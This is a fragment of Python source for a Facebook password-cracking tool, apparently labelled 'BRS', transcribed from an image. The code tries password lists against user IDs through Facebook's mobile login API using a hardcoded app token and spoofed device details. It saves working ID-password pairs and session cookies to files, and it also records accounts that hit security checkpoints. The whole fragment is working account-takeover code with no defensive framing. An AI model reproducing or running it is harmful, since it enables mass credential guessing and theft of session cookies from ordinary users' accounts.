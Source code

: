                         twf = 'Login approval'+'s are on. '+'Expect an SMS'+' shortly with '+'a code to use'+' for log in'
                        po = requests.post(url,data=data,headers=headers).json()
                        if 'session_key' in po:
                                        print('\r\r\033[1;32m [BRS-OK] '+ids+' | '+pas+'\033[1;97m')
                                        coki = ";".join(i["name"]+"="+i["value"] for i in po["session_cookies"])
                                     
                                        open('/sdcard/BRS/BRS-COKIE.txt','a').write(ids+'|'+pas+ ' | ' +coki+'\n')
                                        open('/sdcard/BRS/BRS-OK.txt','a').write(ids+'|'+pas+'\n')
                                        oks.append(ids)
                                        break
                        elif twf in str(po):
                                        if 'y' in pcp:
                                             
                                                twf.append(ids)
                                                break
                        elif 'www.facebook.com' in po['error']['message']:
                                        if 'y' in pcp:
                                                print('\r\r\x1b[38;5;205m [BRS-CP] '+ids+' | '+pas+'\033[1;97m')
                                                open('/sdcard/BRS/BRS-CP.txt','a').write(ids+'|'+pas+'\n')
                                                break
                                                cps.append(ids)
                                        else:
                                                open('/sdcard/BRS/BRS-CP.txt','a').write(ids+'|'+pas+'\n')
                                                break
                                                cps.append(ids)
                        else:
                                        continue
                loop+=1
        except Exception as e:
                pass
def rndm(ids,passlist):
        global loop
        global oks
        sys.stdout.write('\r\r\033[1;37m [BRS-XD] %s|\033[1;37mOK:-%s \033[1;37m'%(loop,len(oks)));sys.stdout.flush()
        try:
                for pas in passlist:
                        accees_token = '350685531728|62f8ce9f74b12f84c123cc23437a4a32'
                        fbav = f'{random.randint(111,999)}.0.0.{random.randint(11,99)}.{random.randint(111,999)}'
                        fbbv = str(random.randint(111111111,999999999))
                        android_version = device['android_version']
                        model = device['model']
                        build = device['build']
                        fblc = device['fblc']
                        fbcr = sim_id
                        fbmf = device['fbmf']
                        fbbd = device['fbbd']
                        fbdv = device['fbdv']
                        fbsv = device['fbsv']
                        fbca = device['fbca']
                        fbdm = device['fbdm']
                        fbfw = '1'
                        fbrv = '0'
                        fban = 'FB4A'
                        fbpn = 'com.facebook.katana'
                        en = random.choice(['en_US','en_GB'])
                        motorola= random.choice(['M Bot 54', 'M Bot 60', 'M1', 'M3', 'M3s', 'M5 Lite', 'M6 Note', 'Magic', 'Maimang 5', 'Mate 10 Lite Dual SIM', 'Mate 20 X (China)', 'Mate 8', 'MB526', 'Medias X', 'MI 2', 'MI 3W', 'Mi 4 LTE', 'MI 4i', 'MI 5', 'MI 5X', 'Mi A1', 'Mi Max', 'Mi Max 2', 'Mi Mix 2', 'Milestone', 'Miracle', 'Moment (Sprint)', 'Monza', 'Motion Plus', 'Moto C', 'Moto E2 (4G LTE)', 'Moto E3 Power', 'Moto E4', 'Moto E4 Plus', 'Moto E5', 'Moto E5 Plus', 'Moto G', 'Moto G 2nd Gen', 'Moto G Play', 'Moto G3', 'Moto G3 Turbo Edition', 'Moto G4', 'Moto G5 Plus', 'Moto G5s', 'Moto G5s Plus', 'Moto G6', 'Moto X', 'Moto X 2nd Gen (AT&T)', 'Moto Z', 'Multipad 2 Ultra Duo 8.0 3G', 'MultiPhone 3350 Duo', 'MultiPhone 4044 Duo', 'MultiPhone 5504 DUO', 'Multiphone 7600 Duo', 'MX2', 'MX380', 'MX5'])